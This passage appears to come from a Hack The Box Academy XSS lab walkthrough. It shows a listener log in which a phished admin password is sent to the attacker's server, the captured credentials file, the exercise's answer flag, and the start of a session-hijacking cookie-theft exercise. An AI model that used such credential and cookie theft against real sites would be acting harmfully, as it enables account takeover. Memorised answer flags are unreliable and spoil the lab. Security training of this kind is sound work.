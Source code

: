 ```
[CONTINUE]

[Fri May 30 04:07:03 2025] 10.129.255.155:41440 Accepted
[Fri May 30 04:07:03 2025] 10.129.255.155:41440 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Fri May 30 04:07:03 2025] 10.129.255.155:41440 Closing

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ cat creds.txt 

Username: admin | Password: p1zd0nt57341myp455
```

**Answer**

```
HTB{r3f13c73d_cr3d5_84ck_2_m3}
```

## Exercise - Session Hijacking

### Questions

#### Question #02

**Question**

Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the admin's cookie and use it in `login.php` to get the flag.

![Firefox - Hijacking Homepage](./assets/screenshots/cross_site_scripting_firefox_hijacking_homepage.png)

![Firefox - User Registration Attempt 1](./assets/screenshots/cross_site_scripting_firefox_user_registration_attempt_1.png)